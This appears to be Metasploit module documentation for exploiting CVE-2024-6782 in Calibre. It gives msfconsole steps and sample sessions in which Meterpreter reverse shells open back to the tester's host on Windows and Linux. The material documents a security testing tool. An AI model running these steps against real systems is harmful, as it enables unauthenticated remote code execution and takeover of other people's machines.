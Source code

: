 ## Vulnerable Application

**Vulnerability Description**

This module exploits a vulnerability in Calibre <= v6.9.0 - v7.15.0 (CVE-2024-6782).

An unauthenticated remote attacker can exploit this vulnerability to gain arbitrary code execution in the context of which Calibre is being
executed.

All versions between v6.9.0 - v7.15.0 are affected. STAR Labs published [an advisory](https://starlabs.sg/advisories/24/24-6782/) that
includes the root cause analysis and a proof-of-concept.

**Vulnerable Application Installation**

Calibre can be downloaded from [here](https://download.calibre-ebook.com/).

**Successfully tested on**

Windows:
- Calibre v7.15 on Windows 10 22H2
- Calibre v7.14 on Windows 10 22H2
- Calibre v7.0 on Windows 10 22H2
- Calibre v6.29 on Windows 10 22H2
- Calibre v6.9 on Windows 10 22H2

Linux:
- Calibre v7.15 on Ubuntu 24.04 LTS
- Calibre v7.14 on Ubuntu 24.04 LTS
- Calibre v7.0 on Ubuntu 24.04 LTS
- Calibre v6.29 on Ubuntu 24.04 LTS
- Calibre v6.9 on Ubuntu 24.04 LTS

## Verification Steps

1. Install Calibre
2. Start Calibre and click Connect/share > Start Content server
3. Start `msfconsole` and run the following commands:

```
msf6 > use exploit/multi/misc/calibre_exec
[*] Using configured payload cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/misc/calibre_exec) > set RHOSTS <IP>
msf6 exploit(multi/misc/calibre_exec) > set LHOST <IP>
msf6 exploit(multi/misc/calibre_exec) > exploit
```

You should get a meterpreter session running in the same context as the Calibre application.

## Scenarios

**Windows**

Running the exploit against Calibre v7.14 on Windows 10 22H2, using curl as a fetch command, should result in an output similar to the
following:

```
msf6 exploit(multi/misc/calibre_exec) > exploit 

[*] Started reverse TCP handler on 192.168.137.190:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending payload...
[*] Sending stage (201798 bytes) to 192.168.137.194
[*] Meterpreter session 1 opened (192.168.137.190:4444 -> 192.168.137.194:50346) at 2024-08-01 23:28:16 -0400
[*] Exploit finished, check thy shell.

meterpreter > sysinfo
Computer        : DESKTOP-foo
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows

meterpreter > shell
Process 6084 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.4529]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\Calibre2>whoami
whoami
desktop-foo\admin
```

**Linux**

Running the exploit against Calibre v7.14 on Ubuntu 24.04 LTS, using cmd/unix/python/meterpreter/reverse_tcp as a payload, should result in
an output similar to the following:

```
msf6 exploit(multi/misc/calibre_exec) > exploit 

[ *] Started reverse TCP handler on 192.168.137.190:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending payload...
[*] Sending stage (24772 bytes) to 192.168.137.195
[*] Meterpreter session 2 opened (192.168.137.190:4444 -> 192.168.137.195:52376) at 2024-08-01 23:40:16 -0400

meterpreter > sysinfo
Computer        : asdfvm
OS              : Linux 6.8.0-39-generic #39-Ubuntu SMP PREEMPT_DYNAMIC Fri Jul  5 21:49:14 UTC 2024
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
```
